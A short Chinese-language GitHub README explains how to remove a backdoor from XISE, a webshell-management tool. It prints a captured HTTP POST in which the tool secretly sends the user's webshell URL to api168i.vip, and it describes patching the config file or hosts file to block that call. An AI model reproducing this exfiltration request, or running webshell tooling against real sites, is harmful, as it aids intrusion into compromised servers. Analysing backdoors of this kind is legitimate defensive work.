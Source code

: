 # securitydrops
These are some things encountered on the road to making money, converted into articles

## xise后门去除**

工具来源：https://webshell6.com/?id=4 (不出意外应该全站有后门，站长却意思全站无后门，估计是几年老黑啊)

准备工具：WSExokrer、c32asm

![image](https://github.com/hcsmall/securitydrops/assets/139908133/ae36239a-069b-4150-8a86-11dde98b7007)


启动程序后使用WSExokrer 选择xise进程监控，给XISE添加一条链接

![image](https://github.com/hcsmall/securitydrops/assets/139908133/51b83c3e-e2c0-4680-933c-6b2e37454e4e)




POST /abc1.php HTTP/1.1
Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, application/x-shockwave-flash, application/vnd.ms-excel, application/vnd.ms-powerpoint, application/msword, */*
Referer: http://api168i.vip/abc1.php
Accept-Language: zh-cn
Content-Type: application/x-www-form-urlencoded
Content-Length: 43
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.0)
Host: api168i.vip
Cache-Control: no-cache

hm=http://xxxx/bak111.php||xise



可以看到向api168i.vip 发送了明显的shell数据，找到后就可以去找后门地址去掉就可以了。

mdb 数据库文件

exe本身

调用文件dat

使用c32asm加载fz.dat这个配置文件，搜索api168i.vip。



![image](https://github.com/hcsmall/securitydrops/assets/139908133/9ed2afdf-3f46-4183-8cda-74acd6b7427c)




将地址直接填充后保存即可。

当然如果你不会使用c32的话，也可以修改本地hosts文件将 api168i.vip 指向127.0.0.1 同样也可以解决向后门地址发送shell的问题

